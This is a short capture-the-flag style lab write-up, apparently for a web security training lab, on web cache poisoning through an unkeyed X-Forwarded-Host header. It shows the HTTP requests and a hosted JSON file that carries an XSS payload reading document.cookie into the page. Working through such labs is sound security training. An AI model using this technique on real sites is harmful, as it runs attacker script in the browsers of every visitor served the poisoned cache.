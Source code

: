To solve the lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

GET / HTTP/1.1 -> Burp Extension -> Param Miner -> Guess params -> Guess headers

Issue Activity -> Web cache poisoning -> **X-Forwarded-Host** header

```
GET /?cb=123 HTTP/1.1
...
X-Forwarded-Host: test

In response:
<script>
    data = {
        "host":"test",
        "path":"/",
    }
</script>
```

```
GET /?cb=123 HTTP/1.1
...
X-Forwarded-Host: exploit-ac261fcb1e3ee5b4c042011801e70028.web-security-academy.net
```

**Exploit Server -> Access Log**

`"GET /resources/json/geolocate.json HTTP/1.1" 404`

```
GET /resources/json/geolocate.json HTTP/1.1

The response:
{
    "country": "United Kingdom"
}

GET /resources/js/geolocate.js HTTP/1.1

In the response:
           div.innerHTML = 'Free shipping to ' + j.country;
```

**Exploit Server ->**

```
File:
	/resources/json/geolocate.json
Head:
	Access-Control-Allow-Origin: *
Body:
	{"country":"<img src=1 onerror=alert(document.cookie) />"}
```

**Solution:**
